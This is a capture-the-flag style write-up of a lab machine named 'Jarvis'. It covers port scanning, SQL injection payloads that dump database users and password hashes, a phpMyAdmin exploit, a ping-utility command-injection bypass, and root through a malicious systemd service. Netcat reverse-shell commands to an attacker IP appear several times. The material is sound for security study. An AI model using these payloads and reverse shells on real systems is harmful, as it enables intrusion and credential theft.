






# Summary


## about target

tip:  10.129.227.147

hostname:  jarvis

Difficulty:  Medium


## about attack

+ sqli fuzz, obtain the creds.
+ python script audit, bypass command injection
+ systemctl suid privesc, exploit service to root.


**attack note**

```bash
Jarvis / 10.129.227.147

PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
| ssh-hostkey:
|   2048 03f34e22363e3b813079ed4967651667 (RSA)
|   256 25d808a84d6de8d2f8434a2c20c85af6 (ECDSA)
|_  256 77d4ae1fb0be151ff8cdc8153ac369e1 (ED25519)
80/tcp    open  http    Apache httpd 2.4.25 ((Debian))
|_http-server-header: Apache/2.4.25 (Debian)
| http-cookie-flags:
|   /:
|     PHPSESSID:
|_      httponly flag not set
|_http-title: Stark Hotel
64999/tcp open  http    Apache httpd 2.4.25 ((Debian))
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Site doesn't have a title (text/html).

----interesting things
IronWAF: 2.0.3 
DBadmin:imissyou

---- http enum


gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50 -u http://$tip  -o gobuster.log -x php,txt

wfuzz -c -w /usr/share/seclists/Fuzzing/SQLi/Generic-SQLi.txt --hw 443 http://10.129.227.147/room.php?cod=FUZZ

sqli payload 
1 or benchmark(10000000,MD5(1))#

---- eploit sqli

# union check result column count
0 union select 1,2,3,4,5,6,7

# group_concat, obtain the db info
# hotel,information_schema,mysql,performance_schema
100+union+SELECT 1, group_concat(schema_name), 3, 4, 5, 6, 7 from information_schema.schemata;-- -

# hotel, table info
# room
SELECT 1, group_concat(table_name), 3, 4, 5, 6, 7 from information_schema.tables where table_schema='hotel' ;-- -

# column info
# cod,name,price,descrip,star,image,mini
SELECT 1, group_concat(column_name), 3, 4, 5, 6, 7 from information_schema.columns where table_name='room' ;-- -

# mysql, table info
# column_stats,columns_priv,db,event,func,general_log,gtid_slave_pos,help_category,help_keyword,help_relation,help_topic,host,index_stats,innodb_index_stats,innodb_table_stats,plugin,proc,procs_priv,proxies_priv,roles_mapping,servers,slow_log,table_stats,tables_priv,time_zone,time_zone_leap_second,time_zone_name,time_zone_transition,time_zone_transition_type,user
SELECT 1, group_concat(table_name), 3, 4, 5, 6, 7 from information_schema.tables where table_schema='mysql' ;-- -

# mysql, user, column info
# Host,User,Password,Select_priv,Insert_priv,Update_priv,Delete_priv,Create_priv,Drop_priv,Reload_priv,Shutdown_priv,Process_priv,File_priv,Grant_priv,References_priv,Index_priv,Alter_priv,Show_db_priv,Super_priv,Create_tmp_table_priv,Lock_tables_priv,Execute_priv,Repl_slave_priv,Repl_client_priv,Create_view_priv,Show_view_priv,Create_routine_priv,Alter_routine_priv,Create_user_priv,Event_priv,Trigger_priv,Create_tablespace_priv,ssl_type,ssl_cipher,x509_issuer,x509_subject,max_questions,max_updates,max_connections,max_user_connections,plugin,authentication_string,password_expired,is_role,default_role,max_statement_time

SELECT 1, group_concat(column_name), 3, 4, 5, 6, 7 from information_schema.columns where table_name='user' ;-- -

# mysql, user, table data
# dbadmin:*2D2B7A5E4E637B8FBA1D17F40318F277D29964D0
SELECT 1, user, 3, 4, password, 6, 7 from mysql.user;-- -


---- exploit phpmyadmin
https://www.exploit-db.com/exploits/50457

python 50457.py $tip 80 /phpmyadmin DBadmin imissyou "nc 10.10.14.78 9001 -e /bin/bash"

---- local enum
python -c 'import pty; pty.spawn("/bin/bash")'

www-data, sudo -l 
/var/www/Admin-Utilities/simpler.py

bypass ping os cmd injection. $()

echo 'nc -e /bin/bash 10.10.14.78 9002' > /tmp/a.sh

sudo -u pepper /var/www/Admin-Utilities/simpler.py -p

echo '[Service]
Type=oneshot
ExecStart=/tmp/a.sh
[Install]
WantedBy=multi-user.target' > hack.service

echo "[Service]
Type=notify
ExecStart=/bin/bash -c 'nc -e /bin/bash 10.10.14.78 9001'
KillMode=process
Restart=on-failure
RestartSec=42s

[Install]
WantedBy=multi-user.target" > hack2.service

```


# Enumeration

## nmap scan

light scan

```bash
nmap -p- --min-rate=1000 -T4 -oN nmap.light $tip


```


Heavy scan

```bash
export port=$(cat nmap.light | grep ^[0-9] | cut -d "/" -f 1 | tr "\n" "," | sed s/,$//)
sudo nmap -A -O -p$port -sC -sV -T4 -oN nmap.heavy $tip


```


## http enum

gobuster dir scan;











# Exploit


## sqli







## phpmyadmin exploit 

```bash
https://www.exploit-db.com/exploits/50457

python 50457.py $tip 80 /phpmyadmin DBadmin imissyou "nc 10.10.14.78 9001 -e /bin/bash"
```


# Privexc


## local enum

www-data, sudo -l

/var/www/Admin-Utilities/simpler.py




$ bypass ping check.

```bash
sudo -u pepper /var/www/Admin-Utilities/simpler.py -p

10.10.10.$(echo 78)
```


## pepper shell

```bash
echo 'nc -e /bin/bash 10.10.14.78 9002' > /tmp/a.sh
chmod +x /tmp/a.sh

sudo -u pepper /var/www/Admin-Utilities/simpler.py -p
/tmp/a.sh
```

## root

suid file, /bin/systemctl

exploit service to root

```bash
echo "[Service]
Type=notify
ExecStart=/bin/bash -c 'nc -e /bin/bash 10.10.14.78 9001'
KillMode=process
Restart=on-failure
RestartSec=42s

[Install]
WantedBy=multi-user.target" > hack2.service
```


```bash
systemctl link /tmp/hack2.service
systemctl start hack2
```


